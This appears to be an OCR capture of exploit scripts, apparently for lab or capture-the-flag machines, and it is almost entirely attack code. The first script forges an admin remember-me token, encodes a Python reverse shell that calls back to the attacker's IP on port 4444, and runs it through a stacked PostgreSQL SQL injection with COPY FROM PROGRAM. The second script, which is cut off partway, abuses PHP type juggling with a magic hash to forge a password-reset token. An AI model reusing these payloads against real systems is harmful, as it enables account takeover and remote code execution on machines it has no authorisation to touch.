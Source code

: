 ```python
process = subprocess.Popen(['java', 'Tokenizer', myuser_token, email, 'admin@ren.local', uuid], stdout=subprocess.PIPE)
time.sleep(5)  # wait for subprocess to complete
out, err = process.communicate()

# step 8: if there's an error, print it and exit
if err:
    print(err)
    exit()

# step 9: retrieve the admin token from the output
tokenadmin = out.decode("UTF-8")

# step 10: log in as admin using the manipulated token
session.get(target + '/login', cookies={'rememberme': tokenadmin})

# step 11: craft the reverse shell payload and encode it in base64
b64payload = base64.b64encode(f'''
import socket, subprocess, os, pty;
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM);
s.connect(("{my_ip}", 4444));  # Connect to my IP
os.dup2(s.fileno(), 0);  # Redirect stdin
os.dup2(s.fileno(), 1);  # Redirect stdout
os.dup2(s.fileno(), 2);  # Redirect stderr
pty.spawn("/bin/bash")  # Spawn a bash shell
'''.encode('utf-8'))

# step 12: exploit SQL injection vulnerability to run the reverse shell
session.get(target + "/admin/users/category?id=1; COPY(SELECT convert_from(decode('" + b64payload.decode('utf-8') + "', 'base64'), 'utf-8')) to '/tmp/shell.py'; DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'python3 /tmp/shell.py';")
```

# Stimpy

goal: gain admin access + RCE using type juggling and arbitrary file upload.

```python
import requests
import re
import time
import sys

# step 1: set up my IP and target URL
my_ip = sys.argv[1]  # IP
target = "http://<IP>"     # target URL

# step 2: admin account details
email = "admin@stimpy.tld"  # admin email to target
password = 'L0r3m1p$uM'   # new admin password to set
ts = int(time.time())       # generate timestamp for the reset link

# step 3: initialize session and open target's homepage
session = requests.Session()
session.get(target)

# step 4: function to request a password reset link
def ResetLink():
    session.post(target + '/forgot', data={'email': email})

# step 5: function to test if reset token is valid using type juggling
def Test():
    resp = session.get(f'{target}/reset/1/{ts}/0e123456')  # type juggling with magic hash
```